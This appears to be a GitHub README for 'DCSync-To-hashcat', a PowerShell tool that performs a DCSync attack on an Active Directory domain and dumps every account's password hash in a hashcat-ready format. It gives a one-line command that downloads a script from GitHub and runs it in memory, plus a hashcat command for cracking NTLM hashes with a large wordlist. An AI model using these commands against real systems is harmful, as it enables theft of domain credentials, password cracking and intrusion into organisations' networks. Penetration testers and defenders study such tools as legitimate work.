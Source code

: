 # DCSync-To-hashcat
Performs DCSync, extracts all hashes in a hashcat friendly format

### Execute from GitHub:
```
IEX(IWR -usebasicparsing https://raw.githubusercontent.com/The-Viper-One/DCSync-To-Hashcat/main/DCSync-To-Hashcat.ps1)Invoke-DCSynTH
```
### Execute after loading into memory:
```
Invoke-DCSynTH
```

![image](https://user-images.githubusercontent.com/68926315/222810926-7b0c6bfd-e93b-42bc-95c4-877bb6b31a81.png)

### hashcat cracking

The results can be copied over to file and run againt Hashcat
```
hashcat -a 0 -m 1000 hashes.txt Wordlists/rockyou2021.txt
```
